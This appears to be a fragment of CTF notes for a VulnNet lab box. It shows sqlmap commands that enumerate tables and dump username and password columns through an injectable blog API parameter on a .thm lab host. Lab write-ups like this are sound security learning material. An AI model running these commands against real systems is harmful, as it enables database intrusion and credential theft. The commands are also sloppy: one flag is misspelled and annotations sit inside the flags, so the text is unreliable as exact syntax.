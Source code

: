 Copy request as curl and use it to run sqlmap
```bash
sqlmap 'http://api.vulnnet.thm/vn_internals/api/v2/fetch/?blog=3' ...
--tables
-D vn_admin(username) -T be_users(tablename) -C username,password --dump
```
```bash
-D blog -T users --colums
-D blog -T users --dump
```
[[awk]]
